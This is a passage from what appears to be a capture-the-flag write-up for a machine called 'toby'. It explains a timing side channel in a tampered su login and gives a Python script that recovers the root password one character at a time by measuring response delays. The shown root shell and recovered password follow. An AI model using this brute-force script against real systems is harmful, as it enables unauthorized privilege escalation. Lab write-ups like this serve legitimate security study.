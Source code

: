 ![alt ffuf](/assets/img/toby/time-bash.png)

When i put 10 password with prefix "T" this auth will be add some more time (0.1s) but when i give a password less than 10 chars with "T" prefix again it'll be not add some more time again like we give 10 chars password with another "T" prefix, by knowing this how function works i create this script to brute-forcing this auth

```python
import string, os, time

password = "0000000000"
chars = string.ascii_letters + string.digits

i = 0
while i <= 10:
    for j in chars:
        password = list(password)
        password[i] = j
        password = "".join(password)
        print(password)
        now = time.time()
        os.system("echo {}|su -".format(password))
        est = time.time()-now
        print(est)
        est = str(round(est,1))
        target = str(round(i*0.1+1+0.1, 1))
        print("est: ",est, target, est == target)
        if est == target:
            password = list(password)
            password[i] = j
            password = "".join(password)
            i+=1
            break
```
Get this password `TihPAQ4pse` and we can auth with su

```bash
jack@toby:/tmp$ su -
Password: 
root@toby:~# 
```
